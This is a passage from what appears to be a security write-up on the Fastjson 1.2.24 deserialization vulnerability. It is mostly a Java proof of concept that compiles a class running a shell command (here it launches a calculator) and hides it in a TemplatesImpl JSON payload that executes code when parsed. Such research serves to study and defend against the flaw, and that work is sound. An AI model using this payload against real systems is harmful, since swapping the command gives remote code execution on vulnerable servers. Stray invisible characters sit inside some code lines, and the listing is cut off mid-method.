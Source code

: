 #### Payload
It should be noted that in order to meet the fact that no exception or exit is reported before the vulnerability point is triggered, the `_name` is not `null` and `_tfactory` is not `null` is needed. Since some private variables that need to be changed do not have a `setter` method, the `Feature.SupportNonPublicField` parameter needs to be triggered.

 - POC.java

```java
package org.h3rmesk1t.fastjson.fastjson124;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.codec.binary.Base64;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/2/7 11:18 pm
 */
public class POC {

    public static class H3rmesk1t {

    }

    public static String makeClass() throws Exception {

        ClassPool pool = ClassPool.getDefault();
        CtClass cc = pool.get(H3rmesk1t.class.getName());
        String cmd = "java.lang.Runtime.getRuntime().exec(\"open -a Calculator\");";
        cc.makeClassInitializer().insertBefore(cmd);
        String randomClassName = "H3rmesk1t" + System.nanoTime();
        cc.setName(randomClassName);
        cc.setSuperclass((pool.get(AbstractTranslet.class.getName())));
        byte[] evilCode = cc.toBytecode();

        return Base64.encodeBase64String(evilCode);
    }

    public static String exploitString() throws Exception {

        String evilCodeBase64 = makeClass();
        final String NASTY_CLASS = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";
        String exploit = ​​"{'d1no':{" +
                "\"@type\":\"" + NASTY_CLASS + "\"," +
                "\"_bytecodes\":[\"" + evilCodeBase64 + "\"]," +
                "'_name':'h3rmesk1t'," +
                "'_tfactory':{}," +
                "'_outputProperties':{}" +
                "}}\n";

        return exploit;
    }

    public static void main(String[] args) throws Exception {

        String exploit = ​​exploitString();
        System.out.println(exploit);
        // JSON.parse(exploit, Feature.SupportNonPublicField);
        // JSON.parseObject(exploit, Feature.SupportNonPublicField);
        // JSON.parseObject(exploit, Object.class, Feature.SupportNonPublicField);
```